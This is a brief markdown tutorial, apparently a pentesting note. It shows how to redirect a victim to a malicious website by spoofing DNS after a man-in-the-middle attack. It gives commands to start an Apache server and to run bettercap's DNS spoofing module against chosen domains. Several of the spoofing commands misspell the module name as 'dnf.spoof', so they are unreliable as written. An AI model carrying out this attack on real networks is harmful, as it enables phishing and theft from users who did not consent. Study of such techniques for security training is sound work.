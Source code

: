 After performing MITM attack all the targets packets are flowing through our system. We can redirect the user to an malicious website by spoofing the DNS request of the user

#### Start Apache Server

````bash
systemctl start apache2.service
````

/var/www/html : Location of Apache Files

#### DNS Spoofing

````bash
bettercap -iface <interface> -caplet <spoof-data-cap-file>
help dns.spoof

set dnf.spoof.all true
# Domains for which DNS should be spoofed
set dnf.spoof.domains <domains> 
dnf.spoof on
````

This attack does not work on HSTS websites
